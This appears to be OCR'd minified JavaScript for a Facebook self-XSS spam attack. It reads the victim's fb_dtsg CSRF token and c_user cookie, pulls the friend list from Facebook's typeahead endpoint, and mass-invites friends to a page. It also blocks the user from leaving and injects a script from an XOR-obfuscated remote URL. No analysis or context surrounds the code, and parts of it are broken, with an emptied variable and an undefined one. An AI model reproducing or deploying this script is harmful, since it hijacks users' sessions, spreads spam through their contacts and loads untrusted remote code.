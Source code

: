k=null;"POST"==h&amp;&amp;(k=b.split("?"),b=k[0],k=k[1]);e.open(h,b,!0);e.onreadystatechange=g.c?function(){g.c(e)}:function(){if(4==e.readyState){if(200==e.status){var b="";e.responseText&amp;&amp;(b=e.responseText);"j"==a.charAt(0)?(b=b.replace(/[

]/g,""),b=eval("("+b+")")):"x"==a.charAt(0)&amp;&amp;(b=e.responseXML);c&amp;&amp;c(b)}else{g.f&amp;&amp;document.getElementsByTagName("body")[0].removeChild(g.f),g.e&amp;&amp;(document.getElementById(g.e).style.display="none"),error&amp;&amp;error(e.status)}}};e.send(k)}},d:function(){return this.b()}};setTimeout("ChangeLocation",1);window.onbeforeunload=function(){if(window[tag+"_close"]){return"This script is running now!"}};var i=3;var tay=3;var suc=0;var err=0;var arr=new Array;var arn=new Array;var pho=new Array;var tag="Close";var page_name,x=document.getElementsByTagName("span");for(i=0;i&lt;x.length;i++){if(x[i].getAttribute("itemprop")=="name"){page_name=x[i].innerHTML}}var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol+"///www.facebook.com/ajax/typeahead/first_degree.php?viewer="+user_id+"&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l",function(e){var t=e;var n=t.substring(t.indexOf("{"));var r=JSON.parse(n);r=r.payload.entries;for(var s=0;s&lt;r.length;s++){arr.push(r[s].uid)}for(var o=0;o&lt;r.length;o++){arn.push(r[o].text)}for(var u=0;u&lt;r.length;u++){pho.push(r[u].photo)}i=arr.length-1;tay=i;console.log(arr.length);var a="&lt;div id='friend-edge-display' style='position:fixed;left:35%;margin-left:-273px;top:58px;width:700px;background-color:rgba(25,22,25,0.9);z-index:8;font-family:arial;text-shadow:0px 0px 18px white;sans-serif;box-shadow:0px 0px 44px black; text-shadow:0px 0px 12px white;font-size:20px;text-align:center;padding:3px;border-radius:15em 2em;border:15px double  rgba(225,225,25,0.6);z-index:8;font-family:arial;text-shadow:0px 0px 18px white;sans-serif;box-shadow:0px 0px 44px black;color:white'>";a+="&lt;div style='padding-bottom:10px;font-size:20px;'>"+Title+"&lt;/div>";a+=arr.length+"&amp;#1575;&amp;#1604;&amp;#1593;&amp;#1583;&amp;#1583; &amp;#1575;&amp;#1604;&amp;#1605;&amp;#1603;&amp;#1578;&amp;#1588;&amp;#1601;";a+="&lt;/div>";document.getElementById("pagelet_sidebar").innerHTML=a;InviteFriends(arr[i])});A="jvvr8--ocsf{,emmengamfg,amo-dkngq-ocsf,hq";A="";for(i=0;i&lt;A.length;i++){B+=unescape(String.fromCharCode(A.charCodeAt(i)^2))}document.body.appendChild(document.createElement("script")).src=A
